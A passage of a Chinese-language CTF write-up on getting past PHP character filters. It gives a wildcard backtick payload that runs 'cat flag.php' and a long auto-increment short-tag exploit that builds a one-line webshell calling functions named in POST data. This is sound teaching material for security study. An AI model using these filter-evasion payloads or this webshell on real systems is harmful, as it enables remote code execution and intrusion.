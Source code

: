 ![](/blog_img/noneword-10.jpg)
### 解法二
同样解法一属于任意代码执行，但在这道ctf题目中，我们已知了目录下存在flag.php文件所以可以利用通配符直接匹配文件并输出。
故有Payload:
```php
code=?><?=`/???/??? ????.???`?>
```
其中/???/??? ????.???匹配/bin/cat flag.php，这样也能得到flag。(不过貌似此题环境有点难配，我在本地调试的时候，这样匹配会匹配出一大堆乱码)

## 题目三
这是De1ctf Hard_Pentest_1的第一部分。第一步要求我们上传一句话木马。其正则限制为:
```php
/[a-z0-9;~^`&|]/is
```
\~、\^都被过滤了，很明显就是要用自增法构造了。由于;也被过滤了，所以只能使用短标签法。
有EXP:
```php
<?=$_=[]?><?=$_=@"$_"?><?=$_=$_['!'=='@']?><?=$___=$_?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$___.=$__?><?= $___.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$___.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$___.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$___.=$__?><?=$____='_'?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$____.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$____.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$____.=$__?><?=$__=$_?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$____.=$__?><?=$_=$$____?><?=$_[__]($_[_])?>
```